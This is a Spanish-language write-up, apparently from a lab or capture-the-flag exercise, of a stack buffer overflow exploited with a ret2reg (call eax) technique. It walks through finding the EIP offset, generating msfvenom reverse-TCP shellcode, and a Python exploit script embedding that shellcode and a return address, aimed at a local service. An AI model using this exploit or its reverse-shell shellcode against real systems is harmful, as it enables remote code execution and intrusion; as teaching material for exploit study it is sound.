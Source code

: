 Ahora ya que sabemos cual es el offset del EIP vamos a ver en que registros se guardan nuestro payload y de paso verificamos si tenemos control del EIP para generar el payload usamos lo siguiente 

```bash
python3 -c "print('A'*168+'B'*4+'C'*40)"
```

Lo que nos genere ese comando lo pegamos el la parte del reporte 


![[Pasted image 20240327102623.png]]

Como podemos ver el EIP se ha sobrescrito con 4 bes por lo que ahora tenemos control total de este registro y tambien podemos ver que las ces se estan guardando en en ESP

![[Pasted image 20240327103632.png]]


Ahora si vemos mas a detalle los registros podemos ver que en EAX comienza nuestro payload 


![[Pasted image 20240327104843.png]]

Sabiendo esto, lo que podemos hacer es controlar el registro EIP para apuntar a una dirección que haga una llamada a `eax`. Ya que `eax` contiene el inicio de nuestro payload, podemos colocar nuestro shellcode ahí. Este solo será interpretado cuando se haga la llamada a `eax`, ya que inicialmente el shellcode será simplemente una cadena y no será interpretado. A esta técnica se le conoce como ret2reg (retorno a registro). Por lo tanto, primero debemos encontrar la dirección donde se hace la llamada a `eax`. Para eso, podemos realizar lo siguiente, lo cual nos dará la dirección correspondiente:

![[Pasted image 20240327120325.png]]


Una vez que tenemos la dirección, lo que podemos hacer es crear nuestro shellcode utilizando msfvenom. Indicaremos el tipo de payload, en este caso, una reverse shell por TCP, proporcionando la IP y el puerto de la máquina atacante donde estaremos escuchando. Especificaremos el formato, que en este caso será C. Finalmente, indicaremos los badchars más comunes. Esto nos daría lo siguiente:


![[Pasted image 20240327173132.png]]

Ya con todo esto podemos hacer nuesto exploit el cual quedaria de la siguiente manera 

```python
#!/usr/bin/python3

import socket

from struct import pack

shellcode = (b"\xb8\x33\xc2\xb9\x15\xdb\xcc\xd9\x74\x24\xf4\x5f\x31\xc9"
b"\xb1\x12\x31\x47\x12\x83\xc7\x04\x03\x74\xcc\x5b\xe0\x4b"
b"\x0b\x6c\xe8\xf8\xe8\xc0\x85\xfc\x67\x07\xe9\x66\xb5\x48"
b"\x99\x3f\xf5\x76\x53\x3f\xbc\xf1\x92\x57\xff\xaa\x65\x27"
b"\x97\xa8\x65\x37\x9f\x24\x84\x87\x39\x67\x16\xb4\x76\x84"
b"\x11\xdb\xb4\x0b\x73\x73\x29\x23\x07\xeb\xdd\x14\xc8\x89"
b"\x74\xe2\xf5\x1f\xd4\x7d\x18\x2f\xd1\xb0\x5b")


payload = shellcode + b"A" * (168 - len(shellcode)) + pack("<L", 0x08048563) + b"\n"


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 7788))
s.recv(1024)
s.send(b"48093572\n")
s.recv(1024)
s.send(b"3\n")
```